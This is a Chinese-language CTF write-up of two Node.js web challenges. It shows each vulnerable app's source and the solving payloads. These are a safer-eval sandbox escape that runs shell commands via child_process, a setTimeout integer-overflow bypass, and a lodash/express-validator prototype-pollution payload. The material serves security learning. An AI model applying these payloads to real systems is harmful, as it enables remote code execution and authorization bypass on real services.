







#### [GKCTF2020]EZ三剑客-EzNode

进入页面：

```js
// 源代码
const express = require('express');
const bodyParser = require('body-parser');

const saferEval = require('safer-eval'); // 2019.7/WORKER1 找到一个很棒的库

const fs = require('fs');

const app = express();


app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());

// 2020.1/WORKER2 老板说为了后期方便优化
app.use((req, res, next) => {
  if (req.path === '/eval') {
    let delay = 60 * 1000;
    console.log(delay);
    if (Number.isInteger(parseInt(req.query.delay))) {
      delay = Math.max(delay, parseInt(req.query.delay));
    }
    const t = setTimeout(() => next(), delay);
    // 2020.1/WORKER3 老板说让我优化一下速度，我就直接这样写了，其他人写了啥关我p事
    setTimeout(() => {
      clearTimeout(t);
      console.log('timeout');
      try {
        res.send('Timeout!');
      } catch (e) {

      }
    }, 1000);
  } else {
    next();
  }
});

app.post('/eval', function (req, res) {
  let response = '';
  if (req.body.e) {
    try {
      response = saferEval(req.body.e);
    } catch (e) {
      response = 'Wrong Wrong Wrong!!!!';
    }
  }
  res.send(String(response));
});

// 2019.10/WORKER1 老板娘说她要看到我们的源代码，用行数计算KPI
app.get('/source', function (req, res) {
  res.set('Content-Type', 'text/javascript;charset=utf-8');
  res.send(fs.readFileSync('./index.js'));
});

// 2019.12/WORKER3 为了方便我自己查看版本，加上这个接口
app.get('/version', function (req, res) {
  res.set('Content-Type', 'text/json;charset=utf-8');
  res.send(fs.readFileSync('./package.json'));
});

app.get('/', function (req, res) {
  res.set('Content-Type', 'text/html;charset=utf-8');
  res.send(fs.readFileSync('./index.html'))
})

app.listen(80, '0.0.0.0', () => {
  console.log('Start listening')
});
```

```js
// 版本
{
  "name": "src",
  "version": "1.0.0",
  "main": "index.js",
  "license": "MIT",
  "dependencies": {
    "body-parser": "1.19.0",
    "express": "4.17.1",
    "safer-eval": "1.3.6"
  }
}
```

在github找到对应的漏洞：

构造payload：

```js 
e=(function(){
const process = clearImmediate.constructor("return process;")();
return process.mainModule.require("child_process").execSync("whoami").toString()})()
```

发包：

```js
app.use((req, res, next) => {
  if (req.path === '/eval') {
    let delay = 60 * 1000;
    console.log(delay);
    if (Number.isInteger(parseInt(req.query.delay))) {
      delay = Math.max(delay, parseInt(req.query.delay));
    }
    const t = setTimeout(() => next(), delay);
    // 2020.1/WORKER3 老板说让我优化一下速度，我就直接这样写了，其他人写了啥关我p事
    setTimeout(() => {
      clearTimeout(t);
      console.log('timeout');
      try {
        res.send('Timeout!');
      } catch (e) {

      }
    }, 1000);
  } else {
    next();
  }
});

浏览器内部使用32位带符号的整数来储存推迟执行的时间这意味着setTimeout最多延迟2147483647毫秒。只要大于2147483647,就会发生溢出,就可以绕过那个时间限制，进入下一个路由，所以利用溢出就可以成功绕过timeout；
构造payload：/eval?delay=2147483648
```



#### [安洵杯 2020]Validator

进入页面：

输入密码123.返回报错：

利用dirsearch目录扫描得：

```bash
//run.sh
#!/bin/bash
echo $FLAG > /flag
FLAG=not_here
export FLAG=not_here

node app.js
```

```js
//app.js
const express = require('express')
const express_static = require('express-static')
const fs = require('fs')
const path = require('path')

const app = express()
const port = 9000

app.use(express.json())
app.use(express.urlencoded({
    extended: true
}))

let info = []

const {
    body,
    validationResult
} = require('express-validator')

middlewares = [
    body('*').trim(),
    body('password').isLength({ min: 6 }),
]

app.use(middlewares)

readFile = function (filename) {
	var data = fs.readFileSync(filename)
	return data.toString()
}

app.post("/login", (req, res) => {
    console.log(req.body)
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
        return res.status(400).json({ errors: errors.array() });
    }

    if (req.body.password == "D0g3_Yes!!!"){
        console.log(info.system_open)
        if (info.system_open == "yes"){
            const flag = readFile("/flag")
            return res.status(200).send(flag)
        }else{
            return res.status(400).send("The login is successful, but the system is under test and not open...")
        }
    }else{
        return res.status(400).send("Login Fail, Password Wrong!")
    }
})

app.get("/", (req, res) => {
    const login_html = readFile(path.join(__dirname, "login.html"))
    return res.status(200).send(login_html)
})

app.use(express_static("./"))

app.listen(port, () => {
    console.log(`server listening on ${port}`)
})

```

```json
//package.json
{
  "name": "validator",
  "version": "1.0.0",
  "main": "app.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "description": "",
  "dependencies": {
    "express": "^4.17.1",
    "express-static": "^1.2.6",
    "express-validator": "^6.6.0",
    "fs": "0.0.1-security",
    "lodash": "^4.17.16"
  }
}
```

根据lodash和validator的版本找到现成的payload：

```
{"a": {"__proto__": {"test": "testvalue"}}, "a\"].__proto__[\"test": 222}
修改一下：
{"a":{"__proto__":{"system_open":"yes"}},"a\"].__proto__[\"system_open":"yes"}
```

传入payload得到flag：